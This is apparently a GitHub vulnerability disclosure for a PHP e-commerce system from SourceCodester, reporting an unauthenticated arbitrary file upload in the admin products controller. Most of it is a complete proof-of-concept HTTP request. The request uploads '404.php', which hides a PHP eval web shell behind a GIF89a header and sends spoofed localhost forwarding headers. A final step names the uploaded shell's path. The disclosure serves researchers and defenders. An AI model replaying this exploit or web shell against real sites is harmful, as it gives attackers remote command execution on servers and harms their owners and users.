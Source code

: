 # ecommerce-Unauthorized arbitrary file upload vulnerability

## Description

    There is an unauthorized file upload in the ecommerce /ecommerce/admin/products/controller.php interface.

## source code

    https://www.sourcecodester.com/php/13524/e-commerce-system-using-phpmysqli.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. upload file

```
POST /ecommerce/admin/products/controller.php?action=photos HTTP/1.1
Host: 172.20.10.166:8080
Content-Length: 568
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.20.10.166:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXD7NnSeBhXAxBfQh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.20.10.166:8080/ecommerce/admin/products/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

------WebKitFormBoundaryXD7NnSeBhXAxBfQh
Content-Disposition: form-data; name="proid"

201738
------WebKitFormBoundaryXD7NnSeBhXAxBfQh
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000000
------WebKitFormBoundaryXD7NnSeBhXAxBfQh
Content-Disposition: form-data; name="photo"; filename="404.php"
Content-Type: application/octet-stream

GIF89a
<?php @eval($_POST['cmd']);?>
<?php @eval($_GET['cmd']);?>


------WebKitFormBoundaryXD7NnSeBhXAxBfQh
Content-Disposition: form-data; name="savephoto"


------WebKitFormBoundaryXD7NnSeBhXAxBfQh--

```

2. getshell `/ecommerce/admin/products/uploaded_photos/404.php`

| ![image-20240822172610040](https://raw.githubusercontent.com/0xffaaa/cve/main/ecommerce-Unauthorized%20arbitrary%20file%20upload%20vulnerability.assets/image-20240822172610040.png) |
| ------------------------------------------------------------ |

